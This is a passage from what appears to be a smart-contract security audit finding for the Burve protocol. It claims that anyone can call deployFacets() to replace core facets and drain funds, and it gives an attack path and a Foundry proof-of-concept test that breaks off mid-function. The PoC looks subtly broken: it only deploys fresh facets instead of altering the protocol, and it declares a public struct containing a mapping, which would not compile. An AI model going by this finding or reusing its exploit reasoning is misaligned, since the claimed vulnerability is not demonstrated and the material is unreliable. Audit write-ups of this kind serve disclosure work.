 No governance approval or privileged role is needed.
Attackers only need to call `deployFacets()` directly.
No external validation protects facet updates.

### Attack Path

1.  Unauthorized Facet Deployment
    . Attacker calls `deployFacets()`.
    . Attacker replaces core facets like `VaultFacet`, `SwapFacet`.
    . New facets include malicious logic to steal funds or break operations.
 2. Storage Manipulation Leading to Fund Loss
     . Attacker redeploys facets linked to liquidity tracking.
     . Attacker fakes storage values for balances and liquidity pools.
     . Attacker withdraws inflated funds without legitimate liquidity.



### Impact

1. Financial Risks
    . Protocol fund drainage
    . Incorrect liquidity pool balances
    . Unexpected user fund losses
2. Governance and Security Risks
    . Attackers gain unauthorized control over storage
    . Attackers bypass governance to redeploy critical components
    . Complete protocol destabilization

### PoC

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.27;

import{Test, console} from "forge-std/Test.sol";
import {InitLib, BurveFacets} from "../src/multi/InitLib.sol";

contract UnauthorizedFacetAndStorageManipulationTest is Test {
    BurveFacets public originalFacets;
    BurveFacets public injectedFacets;

    struct StorageState {
        mapping(address => uint256) balances;
        uint256 totalLiquidity;
    }

    StorageState public storageState;

    function setUp() public {
        // Deploy legitimate facets (assumed controlled setup)
        originalFacets = InitLib.deployFacets();
    }

    function testUnauthorizedFacetDeployment() public {
        // Simulate attacker replacing facets
        vm.prank(address(0xBAD)); // Malicious actor triggers unauthorized update
        injectedFacets = InitLib.deployFacets();

        // Validate that facet addresses have changed
        assertNotEq(originalFacets.valueFacet, injectedFacets.valueFacet);
        assertNotEq(originalFacets.valueTokenFacet, injectedFacets.valueTokenFacet);

        emit log_named_address(" WARNING: Unauthorized Facet Deployed!", injectedFacets.valueFacet);
```